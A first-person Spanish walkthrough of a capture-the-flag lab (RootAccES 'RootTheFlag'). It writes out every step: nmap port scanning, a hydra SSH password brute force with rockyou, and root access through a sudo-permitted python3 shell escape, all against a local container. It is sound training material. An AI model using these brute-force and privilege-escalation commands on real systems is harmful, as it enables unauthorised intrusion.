






# Resolución de Máquina RootTheFlag de RootAccES

## Instalación

Si todavía no se han unido, el enlace al grupo de Telegram es https://lnkd.in/d-rsKYj3

En el canal Proyecto: RootTheFlag podrás encontrar el zip RootTheFlag01.zip




Tendrás que descargarlo en tu máquina atacante e inicializarla de la siguiente manera:

Descargar y ubicarlo en un directorio de tu preferencia



Descomprimir el archivo con unzip 

```bash
unzip RootTheFlag01.zip
```



Inicializar el contenedor
```bash
sudo bash script.sh nombrearchivo.tar
```


Se te mostrará una IP resultante de la máquina víctima inicializada

## Nmap

Empezamos con usando nmap para descubrir puertos abiertos

```bash
sudo nmap -p- -sS -sCV 172.17.0.2 --min-rate 5000 
```

Se logra visualizar que se encontraron los puertos 22 y 80 abiertos



El único indicio encontrado en la web (puerto 80) es el nombre "beatriz".



No hay nada más en el código de la página web


## Hydra

Hacemos uso Hydra para buscar un password por fuerza bruta por el puerto 22 con el usuario beatriz y el diccionario rockyou.txt (recuerda colocar la ubicación donde tengas este diccionario, en mi caso yo tengo un extracto de las 5000 primeras líneas del rockyou.txt original en mi carpeta /home/kali, llamado rockyou_5000.txt).

```bash
hydra -l beatriz -P /home/kali/rockyou_5000.txt 172.17.0.2 ssh -f -V -t 64
```



Encontramos que el usuario "beatriz" es válido con el password "chocolate"


## SSH

Procedemos a conectarnos por ssh

```bash
ssh beatriz@172.17.0.2
```


## Escalamiento de Privilegios

Ahora consultaremos si podemos ejecutar algún binario como usuario root

```bash
sudo -l
```


Se puede observar que el usuario beatriz puede ejecutar el binario python3 como root


## Searchbins

Una herramienta útil para encontrar como escalar privilegios es searchbins, les dejo el repositorio para que lo instalen fácilmente https://github.com/r1vs3c/searchbins
Esta herramienta básicamente es https://gtfobins.github.io/ pero desde tu terminal.

Ejecutamos
```bash
searchbins -b python -f sudo
```

Y nos aparece el comando para escalar privilegios a root


Lo modificaremos un poco antes de usarlo. Es recomendable colocar toda la ruta del binario, tal cuál nos mostró el sudo -l

```bash
sudo /usr/bin/python3 -c 'import os; os.system("/bin/bash")'
```


Ya somos root

## Captura de Flag

Nos dirigimos a la carpeta /root y leemos el archivo flag.txt

Tomamos la parte que está entre llaves, que por su forma parece estar en base64 y lo desencriptamos

```bash
echo aHR0cHM6Ly9yb290YWNjLmVzCg== | base64 -d
```


Este es mi primer writeup, pero no será el último!!! 

Happy Hacking!!!

---p4ntr0x---